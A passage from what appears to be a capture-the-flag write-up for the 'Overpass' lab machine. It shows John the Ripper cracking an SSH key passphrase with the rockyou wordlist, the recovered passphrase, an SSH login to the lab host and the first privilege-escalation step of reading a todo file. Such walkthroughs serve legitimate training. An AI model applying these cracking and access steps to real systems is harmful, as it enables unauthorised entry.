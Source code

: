 then run john on the new file and let's wait

```
john key.txt --wordlist=/usr/share/wordlists/rockyou.txt               
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (key)     
1g 0:00:00:00 DONE (2025-06-20 19:19) 8.333g/s 111466p/s 111466c/s 111466C/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

#### User Access

and here it is so let's now access our machine and get our user flag.

**Note:-** don't forget to change the key file permissions so that you can use it without problems **chmod 700 "KeyFile"**

Then run this command to connect via ssh and enter your paraphrase and you will find that we are in now.

```
ssh -i key james@10.10.4.172
Enter passphrase for key 'key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)
```

![img-description](/assets/img/Overpass/User.png)
_User Flag_

### Privilege Escalation

we can see that there is another file called todo.txt that seems interesting let's discover it's contents

```
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```
